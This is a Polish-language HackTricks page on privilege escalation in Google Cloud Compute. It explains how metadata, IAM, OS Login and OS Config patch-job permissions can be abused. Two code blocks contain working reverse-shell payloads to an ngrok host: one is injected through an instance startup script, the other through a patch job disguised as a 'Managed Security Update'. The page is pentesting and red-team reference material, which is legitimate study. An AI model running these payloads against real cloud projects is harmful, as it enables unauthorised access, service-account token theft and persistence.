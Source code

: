 # GCP - Compute Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Compute

Aby uzyskać więcej informacji na temat Compute i VPC (sieci) w GCP, sprawdź:

{% content-ref url="../../gcp-services/gcp-compute-instances-enum/" %}
[gcp-compute-instances-enum](../../gcp-services/gcp-compute-instances-enum/)
{% endcontent-ref %}

{% hint style="danger" %}
Zauważ, że aby przeprowadzić wszystkie ataki eskalacji uprawnień, które wymagają modyfikacji metadanych instancji (takich jak dodawanie nowych użytkowników i kluczy SSH), **konieczne jest posiadanie uprawnień `actAs` dla SA przypisanego do instancji**, nawet jeśli SA jest już przypisany!
{% endhint %}

### `compute.projects.setCommonInstanceMetadata`

Dzięki temu uprawnieniu możesz **modyfikować** informacje o **metadanych** instancji i zmieniać **autoryzowane klucze użytkownika** lub **tworzyć** **nowego użytkownika z uprawnieniami sudo**. W związku z tym będziesz mógł zalogować się przez SSH do dowolnej instancji VM i ukraść GCP Service Account, z którym działa instancja.\
Ograniczenia:

* Zauważ, że GCP Service Accounts działające w instancjach VM domyślnie mają **bardzo ograniczony zasięg**
* Będziesz musiał **móc skontaktować się z serwerem SSH**, aby się zalogować

Aby uzyskać więcej informacji na temat tego, jak wykorzystać to uprawnienie, sprawdź:

{% content-ref url="gcp-add-custom-ssh-metadata.md" %}
[gcp-add-custom-ssh-metadata.md](gcp-add-custom-ssh-metadata.md)
{% endcontent-ref %}

Możesz również przeprowadzić ten atak, dodając nowy skrypt uruchamiający i restartując instancję:
```bash
gcloud compute instances add-metadata my-vm-instance \
--metadata startup-script='#!/bin/bash
bash -i >& /dev/tcp/0.tcp.eu.ngrok.io/18347 0>&1 &'

gcloud compute instances reset my-vm-instance
```
### `compute.instances.setMetadata`

To uprawnienie daje **te same uprawnienia co poprzednie uprawnienie**, ale dla konkretnych instancji zamiast całego projektu. **Te same exploity i ograniczenia jak w poprzedniej sekcji mają zastosowanie**.

### `compute.instances.setIamPolicy`

Ten rodzaj uprawnienia pozwoli ci **przyznać sobie rolę z poprzednimi uprawnieniami** i eskalować uprawnienia, nadużywając ich.

### **`compute.instances.osLogin`**

Jeśli **OSLogin jest włączony w instancji**, z tym uprawnieniem możesz po prostu uruchomić **`gcloud compute ssh [INSTANCE]`** i połączyć się z instancją. **Nie będziesz miał uprawnień roota** wewnątrz instancji.

{% hint style="success" %}
Aby pomyślnie zalogować się z tym uprawnieniem wewnątrz instancji VM, musisz mieć uprawnienie `iam.serviceAccounts.actAs` dla SA przypisanego do VM.
{% endhint %}

### **`compute.instances.osAdminLogin`**

Jeśli **OSLogin jest włączony w instancji**, z tym uprawnieniem możesz po prostu uruchomić **`gcloud compute ssh [INSTANCE]`** i połączyć się z instancją. Będziesz miał **uprawnienia roota** wewnątrz instancji.

{% hint style="success" %}
Aby pomyślnie zalogować się z tym uprawnieniem wewnątrz instancji VM, musisz mieć uprawnienie `iam.serviceAccounts.actAs` dla SA przypisanego do VM.
{% endhint %}

### `compute.instances.create`,`iam.serviceAccounts.actAs, compute.disks.create`, `compute.instances.create`, `compute.instances.setMetadata`, `compute.instances.setServiceAccount`, `compute.subnetworks.use`, `compute.subnetworks.useExternalIp`

Możliwe jest **utworzenie maszyny wirtualnej z przypisanym kontem usługi i kradzież tokena** konta usługi uzyskując dostęp do metadanych, aby eskalować do niego uprawnienia.

Skrypt exploita dla tej metody można znaleźć [tutaj](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/compute.instances.create.py).

### `osconfig.patchDeployments.create` | `osconfig.patchJobs.exec`

Jeśli masz uprawnienia **`osconfig.patchDeployments.create`** lub **`osconfig.patchJobs.exec`**, możesz utworzyć [**zadanie łatania lub wdrożenie**](https://blog.raphael.karger.is/articles/2022-08/GCP-OS-Patching). To umożliwi ci lateralne poruszanie się w środowisku i uzyskanie wykonania kodu na wszystkich instancjach obliczeniowych w projekcie.

Zauważ, że w tej chwili **nie potrzebujesz uprawnienia `actAs`** dla SA przypisanego do instancji.

Jeśli chcesz ręcznie wykorzystać to, będziesz musiał utworzyć albo [**zadanie łatania**](https://github.com/rek7/patchy/blob/main/pkg/engine/patches/patch\_job.json) **lub** [**wdrożenie**](https://github.com/rek7/patchy/blob/main/pkg/engine/patches/patch\_deployment.json)**.**\
Aby uruchomić zadanie łatania: 

{% code overflow="wrap" %}
```python
cat > /tmp/patch-job.sh <<EOF
#!/bin/bash
bash -i >& /dev/tcp/0.tcp.eu.ngrok.io/18442 0>&1
EOF

gsutil cp /tmp/patch-job.sh gs://readable-bucket-by-sa-in-instance/patch-job.sh

# Get the generation number
gsutil ls -a gs://readable-bucket-by-sa-in-instance

gcloud --project=$PROJECT_ID compute os-config patch-jobs execute \
--instance-filter-names=zones/us-central1-a/instances/<instance-name> \
--pre-patch-linux-executable=gs://readable-bucket-by-sa-in-instance/patch-job.sh#<generation-number> \
--reboot-config=never \
--display-name="Managed Security Update" \
--duration=300s
```
{% endcode %}

Aby wdrożyć wdrożenie poprawki:
```bash
gcloud compute os-config patch-deployments create <name> ...
```
Narzędzie [patchy](https://github.com/rek7/patchy) mogło być używane w przeszłości do wykorzystania tej błędnej konfiguracji (ale teraz nie działa).

**Atakujący mógłby również nadużyć tego dla utrzymania dostępu.**

### `compute.machineImages.setIamPolicy`

**Przyznaj sobie dodatkowe uprawnienia** do obrazu maszyny.

### `compute.snapshots.setIamPolicy`

**Przyznaj sobie dodatkowe uprawnienia** do migawki dysku.

### `compute.disks.setIamPolicy`

**Przyznaj sobie dodatkowe uprawnienia** do dysku.

### Ominięcie Zakresów Dostępu

Pod tym linkiem znajdziesz kilka [**pomysłów na ominięcie zakresów dostępu**](../).

### Lokalna Eskalacja Uprawnień w instancji GCP Compute

{% content-ref url="../gcp-local-privilege-escalation-ssh-pivoting.md" %}
[gcp-local-privilege-escalation-ssh-pivoting.md](../gcp-local-privilege-escalation-ssh-pivoting.md)
{% endcontent-ref %}

## Referencje

* [https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)

{% hint style="success" %}
Ucz się i ćwicz Hacking AWS:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Ucz się i ćwicz Hacking GCP: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Wsparcie dla HackTricks</summary>

* Sprawdź [**plany subskrypcyjne**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegram**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Dziel się trikami hackingowymi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repozytoriów na GitHubie.

</details>
{% endhint %}
